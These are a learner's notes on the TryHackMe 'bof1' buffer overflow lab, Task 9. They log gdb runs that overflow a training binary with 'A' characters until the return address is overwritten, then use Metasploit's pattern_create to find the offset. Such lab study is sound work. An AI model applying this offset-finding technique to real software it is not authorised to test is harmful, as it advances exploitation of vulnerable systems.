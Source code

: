 
**My steps/notes for Task 9** (https://tryhackme.com/room/bof1)

*( I will put these in another location at some stage since I want these pages to hold more general notes around a topic - but at the moment I'm learning and practicing, so bear with me yea? :) )*
```

(gdb) run $(python -c "print 'A'*###) <---- running the number of characters as below

155 characters
Inferior 1 (process 18950) exited normally

156 characters
0x0000000000000000 in ?? () <--- this one or the next one being rbp?

157 characters
0x00000000004005d3 in main ()

158 characters
0x00000000004005d3 in main ()

159 characters
0x00000000004005d3 in main ()

160 characters
0x00000000004005d3 in main ()

161 characters
0x00000000004005d3 in main ()

162 characters
0x00000000004005d3 in main ()

163 characters
0x0000000000400500 in __do_global_dtors_aux () <---- Return Address

164 characters
0x0000000000400041 in ?? () <---- Return Address starting to overflow

165 characters
0x0000000000004141 in ?? ()

166 characters
0x0000000000414141 in ?? ()

167
0x0000000041414141 in ?? ()

168
0x0000004141414141 in ?? ()

169
0x0000414141414141 in ?? ()

170 - 181, 190 (not sure about others)
0x00000000004005ab in concat_arg ()
```
- We'll use the MSF pattern generator now, same as before - we'll use a 200 character approach
	`/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 200`
- Results in
`Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag`
- Run the patter above
	- `(gdb) run '<patter-above>`